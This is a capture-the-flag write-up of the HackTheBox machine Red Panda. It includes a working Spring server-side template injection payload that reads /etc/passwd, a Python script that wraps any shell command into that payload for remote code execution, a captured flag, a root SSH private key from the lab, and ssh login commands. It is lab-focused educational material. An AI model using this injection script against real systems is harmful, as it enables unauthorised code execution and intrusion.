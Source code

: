 # Red Panda HackTheBox Machine

> Author: Mihai Stanciu | 06.09.2022

## Nmap Search

Found 2 ports open - **22 and 8080**

## Ffuf Search

```
/search
/stats
/error
```

## Users found

1. woodenk
2. damian
3. florida
4. greg

## Vulnerabilities

Found initial STTI Injection on Java Spring Boot `*{7*7}`
`*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

Using this we write a simple python script to convert commands to ASCII.

```python
#!/usr/bin/python3

import sys
import requests

IP = "10.10.11.170"
URL = f"http://{IP}:8080/search"

command = " ".join([i for i in sys.argv[1:]])
convert = []

for i in command:
    convert.append(str(ord(i)))

payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString("
payload += f"{convert[0]})"

for i in range(1, len(convert)):
    payload += f".concat(T(java.lang.Character).toString({convert[i]}))"

payload += ").getInputStream())}"
# print(payload)

res = requests.post(url=URL, data={"name": payload})

output = res.text.split("You searched for: ", 1)[1].split("</h2>", 1)[0].strip()

print(output)
```

## Found the first flag in /home/woodenk

`7578b364bc415d9ccb4eb952b9d20c80`

## Found priv-esc.xml with ssh private key

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
```

## Found second flag using ssh with the private key above

```
chmod 600 id_rsa
ssh root@$IP -i id_rsa
```
